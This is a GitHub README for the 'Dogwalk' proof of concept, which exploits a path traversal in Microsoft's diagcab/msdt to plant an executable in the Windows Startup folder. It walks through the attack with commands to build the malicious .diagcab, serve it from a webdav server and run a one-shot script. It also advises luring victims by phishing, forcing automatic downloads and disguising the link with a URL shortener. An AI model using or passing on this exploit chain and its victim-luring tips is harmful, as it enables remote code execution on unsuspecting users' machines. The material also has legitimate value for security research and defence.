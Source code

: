 <div align=center>
<h1> Dogwalk Proof-of-Concept🐾</h1>
<pre><code>
<h><strong>🚨 Disclaimer 🚨</strong></h4>

<br><br>The PoC enables an attacker to be able to obtain <strong>Remote Code Injection</strong> on a Windows victim device.
<br>The goal of this repo is to make a PoC even more usable than the <a href=https://github.com/irsl/microsoft-diagcab-rce-poc>initial repo</a>.
<br>DO NOT USE IT WITHOUT PRIOR AUTHORIZATION!
<br><br><i>Regarding the damage caused and the simplicity of exploitation, I hope Microsoft will fix it</i>
</code></pre>
</div>

* [🧠 Understand it](#how-it-works)
* [🐾 Run it](#lets-get-it)
* [📺 Show Me](##-wait-and-see)

***Core concept:*** path traversal vulnerability in Microsoft's Diagcab technology (`msdt`) that could lead to remote code execution.<br>
You can find the full advisory in the [blog post](https://medium.com/@radimre83/the-trouble-with-microsofts-troubleshooters-6e32fc80b8bd)<br>
The vulnerability has been reported for **2 years** (by [@irsl](https://github.com/irsl)) and still has **no fix**!




## How it works?

The Proof-of-Concept sets up a webdav server hosting a malicious `.diagcab` file that will perform a path transversal to write a malicious executable in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`. Writing an executable in this folder will execute it each time the user start the windows machine, this is called ***Boot Logon Autostart Execution***.

So, basically what we need is:
* webDAV server
* Malicious `.diagcab` file
* Malicious executable *(legit one or basic text file is sufficient for the PoC)*

### 🎬 Scenario

1. The victim will visit a link (phishing, social engineering, or whatever) that will download the `.diagcab` file

<sup>*(💡 use `Content-type: application/octet-stream` response header to make the Browser automaticaly downloading the file when browsing the url)*</sup>

2. The victim click on the file download (could easily/accidentaly happen by just clicking on the browser download folder)
3. The cab file loads the webdav malicious executable -> ***(path transversal)*** downloaded in Start up menu
4. The user restart his device -> ***(RCE)***

## Let's get it

If you are too lazy (or in a hurry) to proceed step-by-steps:
```shell
./hurry-dogwalk.sh [WEBDAV_URL]         # need docker
# Stop the server
./hurry-dogwalk.sh --clean
```

Otherwise ↓↓

### 🔨 Craft the  `.diagcab` file

* `.diagcfg` are simple XML files that hold reference to one or more diagnostic packages and provide meta information about them
* They are packaged into Microsoft cabinet file archives and saved with `.diagcab` extension.

Firt build `custom.diagcfg`:
```shell
./build-malicious-diagcfg.sh --url [WEBDAV_URL]
```

And build the `hotfix895214.diagcab`:
```shell
cabarc.exe n hotfix895214.diagcab custom.diagcfg
# run it on windows (or with wine). If you do not find carbarc.exe use http://jc.bellamy.free.fr/download/cabarc.exe or http://download.microsoft.com/download/platformsdk/cab/2.0/w98nt42kmexp/en-us/Cabsdk.exe
```

Finally, move it in the `./webdav/diagcab-webdav-poc/config` directory

### 🏗️ Set up the server

Put the executable you want to transfer on victim machine within `./webdav/malicious` directory... <sup>*(Here we use the classic `calc.exe`)*</sup>

...And launch the server:
```
cd ./webdav/diagcab-webdav-poc/
perl diagcab-webdav-poc.pl
```

The malicious `.diagcab` is available at `https://[WEBDAV_URL]/config/hotfix895214.diagcab`. You now have to lure a victim to click on this link.

<sup>*(💡you can use URL shortener to make it appears less suspicious)*</sup>

### 👁️ Wait and see

<details>
<summary><b>Dogwalk set up</b></summary>
<div align=center>
<img src=https://github.com/ariary/Dogwalk-rce-poc/blob/master/img/dogwalk_setup.gif>
</div>
</details>

🐾🐾

![demo](https://github.com/ariary/Dogwalk-rce-poc/blob/master/img/dogwalk_exploit.gif)


